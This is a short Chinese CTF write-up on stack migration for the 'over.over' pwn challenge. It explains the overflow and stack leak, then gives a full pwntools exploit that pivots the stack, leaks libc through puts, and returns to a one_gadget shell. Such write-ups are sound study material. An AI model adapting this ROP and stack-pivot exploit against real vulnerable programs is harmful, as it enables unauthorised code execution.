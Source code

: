 ```yaml
---
title: Stack-Migaration
date: 2018-09-29 22:50:49
tags: pwn 
layout: post
---
```

one demo
关于 Stack Migration
<!--more-->
# over.over
在ctfwiki上看到的
[over][1]
虽然很简单但是很精练 可以作为一般stack migration的范本
# Analysis
程序很简单
* 有0x10的溢出 可以覆盖rbp和ret address
* 可以泄露栈地址(rfd)
# 思路
泄露栈地址
->栈迁移到可控区域leak libc
->跳回main
->改掉返回地址为one_gadget

# EXP
```python
from pwn import *
def repeat(c):
	p.readuntil(">")
	p.send(c)
bin=ELF("./over.over")

libc=ELF("/lib/x86_64-linux-gnu/libc.so.6")
context.log_level='debug'
leave=0x00000000004006be
pr=0x0000000000400793
main=0x0000000004006C0
p=process("./over.over")

payload="A"*0x50
repeat(payload)
p.readuntil("A"*0x50)

data=p.readline()
stack=u64(data[:-1].ljust(8,"\0"))
log.warning(hex(stack))

payload=p64(0xdeadbeef)+p64(pr)+p64(bin.got['puts'])+p64(bin.plt['puts'])+p64(main)
payload=payload.ljust(0x50,'\0')+p64(stack-0x70)+p64(leave)

repeat(payload)
p.readline()
data=p.readline()
base=u64(data[:-1].ljust(8,"\0"))
base=base-libc.symbols['puts']
libc.address=base
one=0x4526a+base
log.warning(hex(base))


repeat("A"*0x50+p64(0xdeadbeef)+p64(one))
p.interactive()
```

[1]:https://github.com/n132/banana/tree/master/Pwn/stack_trick/stack_migration_over